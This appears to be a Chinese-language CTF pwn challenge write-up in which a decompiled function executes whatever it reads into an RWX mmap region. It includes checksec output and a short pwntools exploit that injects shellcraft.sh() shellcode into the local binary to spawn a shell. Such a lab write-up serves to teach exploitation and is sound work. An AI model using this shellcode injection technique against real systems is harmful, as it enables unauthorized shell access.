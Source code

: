 # 简单的shellcode

- 作者：pn1fg
- 参考：-
- 难度：Easy
- 分类：Pwn
- 暴露端口：70

# 题目描述

-

# 题目解析

- 源码：[shellcode.c](build/shellcode.c)
- 考点：写shellcode

`shellcode` 指的是用于完成某个功能的汇编代码，常见的功能主要是获取目标系统的 `shel`l。一般来说，shellcode 需要我们自己填充，要想执行`shellcode`，需要对应的 `binary`在运行时，`shellcode`所在的区域具有可执行权限。

______________________________________________________________________

#### 查看文件信息

查看文件类型：

```shell
>>> file shellcode
shellcode: ELF 64-bit LSB executable, x86-64, version 1 (SYSV), dynamically linked, interpreter /lib64/ld-linux-x86-64.so.2, BuildID[sha1]=e4a67a1f629c4ad7e86b6fd9e87a1bceccf80f7d, for GNU/Linux 3.2.0, not stripped
```

这是一个64位 ELF 文件，动态链接，没有去除符号

查看保护机制：

```shell
>>> checksec --file=shellcode
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      No PIE (0x400000)
```

NX 保护

#### 分析漏洞成因

反编译`vuln`函数

```c
void sym.vuln(void)

{
    code *pcVar1;
    ulong buf;

    pcVar1 = sym.imp.mmap(0, 0x400, 7, 0x22, 0, 0);
    sym.imp.puts("Please Send !!!!");
    sym.imp.read(0, pcVar1, 0x400);
    (*pcVar1)();
    return;
}
```

这个`mmap`函数可能大家都不太熟悉，可以去了解一下这个函数的作用

`mmap`函数在本题中的作用是，将`pcVar1`指针指向的区域中大小为 0x400 的内存赋予可读可写可执行的权限，`read`函数从标准输入读取 0x400 的数据存入刚刚指针指向的区域

所以本题的大致思路就是，通过`read`函数我们将一段`shellcode`写入内存中并且执行它从而拿到`shell`

#### 编写利用程序

[exp.py](writeup/exp.py):

```python
from pwn import *

context.arch = 'amd64'
context.log_level = 'debug'

io = process('./shellcode')

shellcode = asm(shellcraft.sh()) 

payload = flat([shellcode,])

io.sendlineafter(b'!\n',payload)

io.interactive()
```
